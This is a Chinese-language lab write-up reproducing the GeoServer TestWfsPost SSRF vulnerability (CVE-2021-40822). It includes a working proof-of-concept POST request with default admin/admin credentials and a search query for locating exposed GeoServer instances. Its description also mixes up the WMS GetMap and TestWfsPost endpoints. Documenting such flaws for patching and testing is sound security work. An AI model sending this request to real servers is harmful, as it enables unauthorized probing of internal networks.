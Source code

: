 # GeoServer TestWfsPost 接口未授权 SSRF 漏洞 CVE-2021-40822

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在 GeoServer 2.19.3、2.18.5 和 2.17.6 版本之前，WMS GetMap 请求中存在服务器端请求伪造（SSRF）漏洞。攻击者可以利用此漏洞通过 GeoServer 服务器向内部或外部服务发送请求。

参考链接：

- https://github.com/advisories/GHSA-rr33-j5p5-ppf8
- https://nvd.nist.gov/vuln/detail/CVE-2021-40822

## 漏洞影响

```
GeoServer <= 2.18.5
GeoServer >= 2.19.0, <= 2.19.2
```

## 网络测绘

```
app="GeoServer"
```

## 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.19.1 服务器：

```
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。

![](images/GeoServer%20TestWfsPost%20接口未授权%20SSRF%20漏洞%20CVE-2021-40822/image-20250207163904383.png)

## 漏洞复现

漏洞存在于 TestWfsPost 接口中。攻击者可以利用 `url` 参数使服务器向任意 URL 发送请求。该接口接受以下参数：

- `url`：GeoServer 将要发送请求的目标 URL
- `body`：要发送的请求体内容。如果此参数为空，GeoServer 将发送 GET 请求；如果包含任何值，则 GeoServer 将发送 POST 请求
- `username`：基础认证的用户名（可选）
- `password`：基础认证的密码（可选）

发送如下请求来复现漏洞：

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: testasp.vulnweb.com
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Content-Length: 99

form_hf_0=&url=http%3A%2F%2Ftestasp.vulnweb.com%2Fgeoserver%2F..%2F&body=testtest&username=admin&password=admin
```

比如，使用 `testasp.vulnweb.com` 作为目标 URL，你将看到 `testasp.vulnweb.com` 的响应。

![](images/GeoServer%20TestWfsPost%20接口未授权%20SSRF%20漏洞%20CVE-2021-40822/image-20250207165801701.png)

注意：`url` 参数中的主机名必须与请求中的 `Host` 头部值相同，否则 GeoServer 会返回错误。例如，如果 `url` 参数中的主机名是 `internal`，那么请求中的 `Host` 头部值也必须是 `internal`。
